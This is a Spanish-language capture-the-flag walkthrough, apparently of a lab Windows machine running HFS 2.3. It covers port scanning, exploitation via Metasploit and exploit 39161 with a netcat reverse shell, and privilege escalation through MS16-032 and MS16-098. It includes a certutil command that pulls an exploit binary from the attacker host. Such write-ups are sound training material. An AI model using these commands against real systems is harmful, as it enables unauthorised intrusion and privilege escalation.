

Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS 10.10.10.8
Completed SYN Stealth Scan at 16:56, 26.81s elapsed (65535 total ports)
Nmap scan report for 10.10.10.8
Host is up, received user-set (0.28s latency).
Scanned at 2024-06-02 16:56:13 -03 for 27s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 127
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p80 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.28s latency).
PORT STATE SERVICE VERSION
80/tcp open http HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Vamos a buscar exploits para HFS 2.3:
Intrusión - MFS
Si queremos utilizar Metasploit, podemos usar el módulo exploit/windows/http/rejetto_hfs_exec. Lo configuramos de la siguiente manera:
Al ejecutarlo, obtenemos una sesión de meterpreter como el usuario kostas.
Intrusión - Manual
Vamos a hacer uso del anteúltimo exploit que nos traer searchsploit: 39161.py
Debemos modificar el contenido para especificar nuestra dirección IP y puerto:
Luego, el mismo exploit nos dice que debemos hostear el binario nc.exe a través de un web server en el puerto 80, y que puede ser necesario ejecutarlo varias veces. Esto es porque primero subirá el binario y luego lo ejecutará.
Podemos encontrar el binario nc.exe en /usr/share/windows-resources/binaries/nc.exe, o bien, lo descargamos desde aquí. Luego, levantamos un servidor web con python:
cp /usr/share/windows-resources/binaries/nc.exe .
python3 -m http.server 80
Nos quedamos a la escucha en el puerto 443 y ejecutamos el script:

Desde aquí ya podemos ver la primer flag:
Escalación de privilegios - MSF
Vamos a usar el módulo post/multi/recon/local_exploit_suggester pasándole la sesión que obtuvimos anteriormente. Al ejecutarlo, vemos algunas opciones para intentar escalar privilegios:
Probamos el módulo windows/local/ms16_032_secondary_logon_handle_privesc y logramos obtener una nueva sesión como NT AUTHORITY/\SYSTEM:
Desde aquí, podemos ver la segunda flag:
Escalación de privilegios - Manual
Inicialmente, en la sesión obtenida ejecutaremos systeminfo y guardamos el output en un archivo systeminfo.txt.
Vamos a usar Windows Exploit Suggester.
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
pip2 install xlrd==1.2.0
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2024-06-02-mssb.xls --systeminfo systeminfo.txt
En el output, vemos algo similar a lo que nos mostró Metasploit. Una serie de exploits que podríamos utilizar para escalar privilegios:
Vamos a usar el MS16-098. Nos descargamos el binario:
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
Ahora, necesitamos pasarlo a la PC de la víctima. Para eso, levantamos un servidor con python en nuestra PC atacante. Desde la víctima, lo descargamos utilizando certutil:
certutil.exe -f -urlcache -split http://10.10.14.19/41020.exe 41020.exe
Al ejecutarlo, hemos logrado escalar privilegios: